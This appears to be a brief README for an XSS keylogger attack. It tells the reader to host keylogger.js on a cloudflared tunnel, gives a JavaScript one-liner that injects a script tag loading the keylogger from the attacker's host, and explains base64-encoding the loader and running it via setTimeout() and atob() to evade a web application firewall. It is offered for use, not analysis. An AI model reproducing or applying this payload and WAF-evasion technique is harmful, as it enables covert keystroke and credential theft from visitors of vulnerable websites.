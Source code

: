 1. Make a cloudflared tunneling in your terminal for public keylogger.js host with ssl certificate or if you have your own ssl web server you can use it

2. Use this JS to call the keylogger script

   var a=document.createElement("script");a.src="https://[your webserver or cloudflare tunnel]/keylogger.js";document.body.appendChild(a); </br>

4. Make this js to base64 for waf bypass

5. Add this to your xss payload with setTimeout() and atob()

6. atob() is used for base64 js execution and setTimeout() is used for waf bypass execution instead of eval()
